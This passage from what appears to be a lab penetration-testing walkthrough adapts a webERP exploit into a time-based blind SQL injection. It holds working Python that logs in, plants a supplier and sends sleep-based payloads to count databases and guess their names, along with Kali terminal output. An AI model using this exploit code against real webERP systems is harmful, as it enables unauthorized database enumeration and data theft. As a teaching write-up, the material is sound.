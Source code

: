 ```
if __name__ == "__main__":
    #proxies = {'http':'127.0.0.1:8080'}
    proxies = {}
    
    if len(sys.argv) != 6:
        print '(+) usage: %s <target> <path> <login> <password> <order>' % sys.argv[0]
        print '(+) eg: %s 127.0.0.1 "weberp/webERP/" admin weberp 1' % sys.argv[0]
        print 'Order means the number of company on the website. Can be gathered from the login page and usually equals 0 or 1'
        exit()
    
    ip = sys.argv[1] + "/" + sys.argv[2]
    
    #if don't have php, set Payload to the next one to check this time-based SQLi: YToxOntpOjA7czoyMzoiMCB3aGVyZSBzbGVlcCgxKT0xOy0tIC0iO30=
    #payload = generatePayload("0 where sleep(1)=1;-- -", "0")
    
    i=1
    while True:
        
        payload = generatePayload("0", "-13.37' or IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)="+str(i)+", sleep(1),FALSE) or '2'='1")
        
        # SELECT;
        #get cookies
        cookies = getCookies(ip, sys.argv[5], sys.argv[3], sys.argv[4])
        
        addSupplierID("GARUMPAGE", cookies, proxies)
        
        t1 = time.time()
        runExploit(cookies, "GARUMPAGE", payload, proxies)
        t2 = time.time()
    
        if (t2-t1>1):
            print "number of databases on server: " +str(i)
            break
        else:
            i=i+1
```

Now we execute our modified exploit.

```
kali@kali:~/Desktop/sqliWebERp$ python sqli_num_of_db.py 192.168.100.72 "weberp/" admin weberp 0
number of databases on server: 3
```

We have confirmed that there are 3 databases on the server.

Now we will modify our exploit to reveal the names of each database.

```
def checkForDbName(index, currentDbName):
    payload = generatePayload("0", "-13.37' or IF((SELECT SUBSTRING(SCHEMA_NAME, 1, "+str(len(currentDbName))+")='"+ currentDbName +"' FROM information_schema.SCHEMATA  LIMIT "+ str(index) +", 1 ), sleep(0.05),FALSE) or '2'='1")
                
    
    t1 = time.time()
    runExploit(cookies, "GARUMPAGE", payload, proxies)
    t2 = time.time()

    if (t2-t1>0.5):
        return True
    else:
        return False
```